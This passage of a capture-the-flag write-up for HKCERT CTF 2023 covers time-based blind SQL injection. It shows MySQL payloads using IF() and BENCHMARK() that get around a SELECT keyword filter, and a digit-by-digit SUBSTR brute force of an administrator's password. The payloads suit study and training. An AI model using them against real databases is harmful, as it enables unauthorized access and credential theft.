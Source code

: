 ## Exploitation

But wait. **How can we determine something is true or false?**

**In [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#using-conditional-statements), we can also see how we can use conditional statements to determine something is true or false:**
```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
```

But hold up... It's using keyword `SELECT`... Which will be filtered in our case...

Hmm... Maybe we can bypass the `SELECT` keyword?

**Upon researching, I found [this PDF for a conference back in 2010](https://websec.files.wordpress.com/2010/11/sqli2.pdf), and it talked about how to bypass the `SELECT` keyword:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113212436.png)

Holy moly... This bypass is hard to understand...

### Exploiting Conditional Time-based SQL Injection

**After fumbling around, I found that we can just use conditional statements without `SELECT` clause:**
```sql
IF(<condition>,<value_if_true>,<value_if_false>)
IF(1=1,BENCHMARK(50000,SHA1(1337)),0)
IF(1=2,BENCHMARK(50000,SHA1(1337)),0)
```

In here, we can use the `IF()` function to determine something is true or false.

If it's true, execute the computational expensive expression, else, just return 0.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113213023.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113213036.png)

But wait, should we even brute force `Administrator`'s secret note??

**After looking at the source code carefully, I found that `Administrator`'s password is just 16-digit long:**
```python
[...]
password = ''.join(secrets.choice(digits) for i in range(16))
[...]
```

That being said, it's easier to brute force the password!

**To do so, we can use function `SUBSTR()` to brute force the password digit by digit:**
```sql
IF(SUBSTR(password,<digit_position>,1)=<digit_here>,BENCHMARK(50000,SHA1(1337)),0)
IF(SUBSTR(password,1,1)=0,BENCHMARK(50000,SHA1(1337)),0)
IF(SUBSTR(password,1,1)=1,BENCHMARK(50000,SHA1(1337)),0)
IF(SUBSTR(password,1,1)=2,BENCHMARK(50000,SHA1(1337)),0)
...
```
